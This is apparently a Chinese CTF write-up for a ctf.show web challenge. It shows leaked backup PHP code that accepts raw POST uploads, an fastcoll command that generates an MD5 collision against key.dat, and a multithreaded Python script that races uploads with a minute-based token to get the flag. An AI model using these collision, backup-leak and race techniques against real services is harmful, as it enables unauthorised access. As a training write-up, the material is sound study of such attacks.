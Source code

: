 ```yaml
---
title: "Web红包题第六弹  @WEB"
date: 2023-10-22
draft: false
author: "Goby"
tags: ["web","ctf.show"]
---
```


 根据题目提示，排除sql注入，目录扫描一波，访问第一个就有发现。

![](/ctf.show/66/1.webp)

访问并下载web.bip，打开后是一个check.php.bak，内容如下。
	

```php
function receiveStreamFile($receiveFile){ 
    $streamData = isset($GLOBALS['HTTP_RAW_POST_DATA'])? $GLOBALS['HTTP_RAW_POST_DATA'] : '';
    if(empty($streamData)){
        $streamData = file_get_contents('php://input');
    }
    if($streamData!=''){
        $ret = file_put_contents($receiveFile, $streamData, true);
    }else{
        $ret = false;
    }
    return $ret;
}
if(md5(date("i")) === $token){
	$receiveFile = 'flag.dat';
	receiveStreamFile($receiveFile);
	if(md5_file($receiveFile)===md5_file("key.dat")){
		if(hash_file("sha512",$receiveFile)!=hash_file("sha512","key.dat")){
			$ret['success']="1";
			$ret['msg']="人脸识别成功!$flag";
			$ret['error']="0";
			echo json_encode($ret);
			return;
		}
			$ret['errormsg']="same file";
			echo json_encode($ret);
			return;
	}
			$ret['errormsg']="md5 error";
			echo json_encode($ret);
			return;
} 
$ret['errormsg']="token error";
echo json_encode($ret);
return;
```
发现这里是和key.dat文件进行强碰撞（两个文件的md5值相同，同时sha1值不相同）

key.dat文件直接访问/key.dat进行下载

使用工具：fastcoll_v1.0.0.5.exe生成两个md5值相同的文件。

fastcoll_v1.0.0.5.exe -p key.dat -o 1.dat 2.dat

![](/ctf.show/66/2.webp)

然后使用脚本将1.bat或者2.bat上传碰撞就可以了

```python
import requests
import time
import hashlib
import threading
 
def post(data):
    try:
        r=requests.post(url,data=data)
        if "ctfshow" in r.text:
            print(r.text)
    except Exception as e:
        pass
 
mi=str(time.localtime().tm_min)
m=hashlib.md5(mi.encode()).hexdigest()
url='http://bb29996c-d561-4f71-8c38-33657d936077.challenge.ctf.show/check.php?token={}&php://input'.format(m)
with open('key.dat','rb') as f:
    data1=f.read()
with open('2.dat','rb') as f:
    data2=f.read()
for i in range(30):
    threading.Thread(target=post,args=(data1,)).start()
for i in range(30):
    threading.Thread(target=post,args=(data2,)).start()
```

拿到flag

![](/ctf.show/66/3.webp)